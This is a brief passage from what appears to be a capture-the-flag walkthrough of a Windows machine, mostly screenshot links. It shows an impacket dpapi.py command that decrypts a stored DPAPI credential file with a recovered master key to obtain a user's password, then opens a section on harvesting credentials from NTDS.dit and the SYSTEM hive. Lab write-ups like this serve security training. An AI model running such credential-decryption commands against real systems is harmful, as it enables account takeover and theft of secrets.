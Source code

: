 ![w](/assets/img/attachments/voleur-16.png)
Then get the file content
```bash
dpapi.py credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```
![w](/assets/img/attachments/voleur-17.png)
And we got this user's pass
![w](/assets/img/attachments/voleur-18.png)
And we are IN!
## Credential Harvesting from NTDS.dit and SYSTEM Hive